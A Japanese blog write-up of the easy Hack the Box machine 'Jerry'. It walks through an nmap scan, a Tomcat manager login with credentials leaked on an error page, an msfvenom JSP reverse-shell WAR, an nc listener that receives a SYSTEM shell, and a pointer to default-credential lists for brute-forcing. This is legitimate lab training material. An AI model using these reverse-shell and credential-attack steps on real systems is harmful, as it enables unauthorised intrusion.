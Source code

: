 ```yaml
---
title: "【Hack the Box write-up】Jerry"
date:  "2020-05-22T15:04:05+07:00"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Jerry"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```

## はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)
## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## machineについて
難易度は easy です。
![スクリーンショット 2020-05-22 14.54.05.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/97a1b7d6-4cba-5abc-fa38-ac13aab91be3.png)

easy の中でもかなり簡単な部類です。（Hack the Box 久々なのでリハビリがてらということで…

## nmap

```
kali@kali:~$ nmap -sV -sC 10.10.10.95 -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-22 01:49 EDT
Nmap scan report for 10.10.10.95
Host is up (0.26s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.78 seconds

```

## 8080ポート見てみる

![スクリーンショット 2020-05-22 16.58.15.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f58acf6d-4b2f-0f5c-3519-3f88bb5cb8b2.png)

Manager App が怪しそうなので見てみます、Basic 認証が出てきますが適当に打ち込んで外しました。
![スクリーンショット 2020-05-22 17.06.37.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/03f54edf-6280-5f30-236e-c55821f4c501.png)
エラーページになんか user と password っぽいの見えてね…？

ということでキャッシュ削除して見えてた user/pass で入ると
![スクリーンショット 2020-05-22 17.09.39.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/670571cd-4e76-43be-5343-b6d4adf9fdaa.png)

入れました。

## msfvenom

![スクリーンショット 2020-05-22 20.19.44.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/f61b3de0-1e3f-fb54-b875-f4fb0997ec58.png)

war をあげれそうなので msfvenom で payload 生成します

```
kali@kali:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.19 LPORT=1212 -f war > paypay.war
Payload size: 1087 bytes
Final size of war file: 1087 bytes

```
これを upload します

nc で待ち受けると…

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```
一気に admin で取れちゃいました

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,919,424 bytes free
C:\Users\Administrator\Desktop\flags>more "2 for the price of 1.txt"
more "2 for the price of 1.txt"
user.txt
********************************

root.txt
********************************

```

flag も 2 つ一気に取れちゃいましたね

## 終わりに
流石に簡単でした。
今月の目標はできる限り metasploit を使わないです

## 他のwriteupみてて参考になりそうだったもの
tomcat の defaultpasslist
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
hydra とか使えば 403 ページで user/pass 見えてなくても（or 見えてることに気づかなくても）サクッと bruteforce できそう

